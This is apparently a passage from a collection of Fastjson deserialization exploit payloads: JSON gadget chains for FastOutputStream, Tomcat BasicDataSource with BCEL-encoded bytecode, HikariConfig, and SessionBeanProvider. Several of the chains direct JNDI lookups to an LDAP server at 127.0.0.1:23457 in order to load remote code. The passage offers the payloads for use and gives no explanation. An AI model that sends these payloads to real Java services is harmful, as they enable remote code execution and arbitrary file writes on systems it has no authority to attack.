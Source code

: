 ```json
        "@type":"java.lang.AutoCloseable",
        "@type":"org.apache.solr.common.util.FastOutputStream",
        "tempBuffer":"SSBqdXN0IHdhbnQgdG8gcHJvdmUgdGhhdCBJIGNhbiBkbyBpdC4=",
        "sink":
        {
            "$ref":"$.stream"
        },
        "start":38
    },
    "close":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.iq80.snappy.SnappyOutputStream",
        "out":
        {
            "$ref":"$.writer"
        }
    }
}
```
BasicDataSource
```json
{
		"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
		"driverClassName": "true",
		"driverClassLoader": {
			"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
		},
		"driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A...o$V$A$A"
	}
```
HikariConfig
```json
{
	"@type": "com.zaxxer.hikari.HikariConfig",
	"metricRegistry": "ldap://127.0.0.1:23457/Command8"
}
```
HikariConfig
```json
{
	"@type": "com.zaxxer.hikari.HikariConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:23457/Command8"
}
```
HikariConfig
```json
{
	"@type": "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig",
	"metricRegistry": "ldap://127.0.0.1:23457/Command8"
}
```
HikariConfig
```json
{
	"@type": "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:23457/Command8"
}
```
SessionBeanProvider
```json
{
	"@type": "org.apache.commons.proxy.provider.remoting.SessionBeanProvider",
	"jndiName": "ldap://127.0.0.1:23457/Command8",
	"Object": "su18"
```